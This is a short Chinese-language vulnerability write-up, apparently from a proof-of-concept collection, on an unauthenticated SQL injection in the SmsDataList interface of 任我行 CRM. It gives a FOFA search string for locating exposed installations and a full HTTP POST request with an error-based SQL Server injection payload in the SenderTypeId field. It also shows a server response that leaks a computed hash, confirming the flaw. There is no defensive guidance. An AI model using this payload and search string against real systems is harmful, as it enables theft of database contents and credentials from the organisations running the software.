 ## 任我行CRM系统存在 SQL注入漏洞

### 漏洞概述

任我行 CRM SmsDataList 接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。

### 搜索语法

```
FOFA：“欢迎使用任我行CRM”
```

### 漏洞复现

```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: your-ip
 
Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000'and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

响应包如下所示，证明存在漏洞。

```
HTTP/1.1 200 OK
Cache-Control: private
Content-Length: 161
Content-Type: application/json; charset=utf-8
Server: WWW Server/1.1
X-AspNetMvc-Version: 4.0
X-Safe-Firewall: zhuji.360.cn 1.0.9.47 F1W1
Date: Tue, 15 Aug 2023 18:24:11 GMT
Connection: close

{"error":{"errorCode":-1,"message":"在将 nvarchar 值 '0xe10adc3949ba59abbe56e057f20f883e' 转换成数据类型 int 时失败。","errorType":1},"value":null}

```

